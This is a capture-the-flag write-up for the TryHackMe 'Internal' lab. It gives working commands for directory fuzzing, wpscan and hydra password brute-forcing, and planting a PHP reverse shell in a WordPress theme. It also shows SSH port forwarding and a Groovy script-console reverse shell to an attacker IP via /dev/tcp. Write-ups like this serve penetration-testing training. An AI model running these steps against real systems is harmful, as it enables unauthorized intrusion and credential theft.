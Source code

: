 ```yaml
---
title: Internal
date: 2024-11-29 00:00:00 +0800
categories: [Tryhackme, Offensive Pentesting Path]
tags: [tryhackme, writeup, walkthrough, linux]     # TAG names should always be lowercase
description: This is a Writeup for Internal Room Which is a part of the offensive pentesting path on tryhackme
---
```


### Scanning

We will start with scanning our machine, Let's start by adding *internal.thm* to our /etc/hosts file and then start our nmap scan

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 6e:fa:ef:be:f6:5f:98:b9:59:7b:f7:8e:b9:c5:62:1e (RSA)
|   256 ed:64:ed:33:e5:c9:30:58:ba:23:04:0d:14:eb:30:e9 (ECDSA)
|_  256 b0:7f:7f:7b:52:62:62:2a:60:d4:3d:36:fa:89:ee:ff (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
```

### Enumeration

As we can see there is no much to look through so we will make the http port our first target, we will go to see what we have 

![img-description](/assets/img/Internal_Default.png)
_Default page_

and as we can see it's a default page for the apache server so we will try to fuzz the website directories using *ffuf*

#### Fuzzing

```
ffuf -w /usr/share/dirb/wordlists/common.txt -u 'http://10.10.77.170/FUZZ' -r                       

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.77.170/FUZZ
 :: Wordlist         : FUZZ: /usr/share/dirb/wordlists/common.txt
 :: Follow redirects : true
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

                        [Status: 200, Size: 10918, Words: 3499, Lines: 376, Duration: 2450ms]
blog                    [Status: 200, Size: 53942, Words: 3347, Lines: 330, Duration: 121ms]
.htaccess               [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 4459ms]
.hta                    [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 4405ms]
.htpasswd               [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 5411ms]
index.html              [Status: 200, Size: 10918, Words: 3499, Lines: 376, Duration: 77ms]
javascript              [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 77ms]
phpmyadmin              [Status: 200, Size: 10531, Words: 504, Lines: 26, Duration: 1238ms]
server-status           [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 78ms]
:: Progress: [4614/4614] :: Job [1/1] :: 529 req/sec :: Duration: [0:00:12] :: Errors: 0 ::
```

we found a directory called *blog* so we will head to it to see it's contents 

![img-description](/assets/img/Internal_blog.png)
_Blog_

i have found that the website is running on wordpress and i have found a login page which redirected me to the wp login page so i will start by trying a deafult credentials *Username:admin* *Password:admin*

![img-description](/assets/img/Internal_wp.png)
_wplogin_

We will find that it tells us *Error: The password you entered for the username admin is incorrect.* which means that there is a username called admin so we will try to get access to the system with this username

### Gaining access

We will use a tool called *wpscan* to try bruteforcing the password of the admin 

using this command

```
wpscan --url http://internal.thm/blog/wp-login.php -U admin -P /usr/share/wordlists/rockyou.txt
```

and we got a hit we now have access to the wp panel

![img-description](/assets/img/Internal_creds.png)
_AdminCreds_

#### Reverse Shell

Now we will go to Appearance > Theme Editor and on the right we will find something called 404 Template which as we can see a php code so we can change the code of this page to a php reverse shell to gain access to the webserver.

you can find the reverse shell here [Reverse Shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)

![img-description](/assets/img/Internal_rev.png)
_ReverseShell_
 
 you must change your ip address and your port to open a nc listener with the port in the code and after this you can head to *internal.thm/blog/wp-content/themes/twentyseventeen/404.php* to execute our reverse shell and we will find that we got access

 ![img-description](/assets/img/Internal_access.png)
_Access_

#### User Access

Now we want to stabilize our shell so that we can exeplore our system more so we will use this command

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

After that we will start by seeing the users on the system by viewing the */etc/passwd* file which contains the system users and we will find a user called *aubreanna*

```
aubreanna:x:1000:1000:aubreanna:/home/aubreanna:/bin/bash
```

in order to get access to this user i tried to explore the directories first and in the */opt* directory i have found a file named wp-save.txt
and it contains the user creds

 ![img-description](/assets/img/Internal_aubreanna.png)
_aubreanna_

And now we can get the user flag

```
aubreanna@internal:~$ cat user.txt
THM{int************}
```

### Privilege Escalation

We will find an intersting file called jenkins.txt so we will open it and we will find that it tells us that there is a jenkin service running *jenkin* is a standalone application for continuous integration and continuous delivery of software.

 ![img-description](/assets/img/Internal_jenkins.png)
_jenkins_

so in order to see it we must do local port forwarding using this command

```
ssh -L 9999:172.17.0.2:8080 aubreanna@10.10.77.170 
```

and now we can access it by typing in our browser *localhost:9999*

we will find that it is a default jenkins login page 

 ![img-description](/assets/img/Internal_JL.png)
_jenkinsLogin_

Now we can try to brute force it using hydra to see if we can get access, you can intercept the request in burpsuite to get the request and use this command 

```
hydra -l admin -P /usr/share/wordlists/rockyou.txt -s 9999 127.0.0.1 http-post-form "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&from=%2F&Submit=Sign+in:Invalid"
```

we will find that we got a hit

 ![img-description](/assets/img/Internal_JC.png)
_jenkinsCreds_

In order to get access we must find a place that we can get a reverse shell from so after some search you can go to Manage Jenkins > Tools and Actions > Script Console

we will find that we can *Type in an arbitrary Groovy script and execute it on the server.* so i will open a listener on my machine and execute the script

```
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.23.53.56/1234;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

And from the listener we have opened we will find that we got access, when again seeing files in the directories in the */opt* we will find another root with the root password this time

 ![img-description](/assets/img/Internal_RootPass.png)
_Rootpass_

Now we can ssh to the root user and get our root flag

```
root@internal:~# cat root.txt
THM{d0ck3r_********}
```


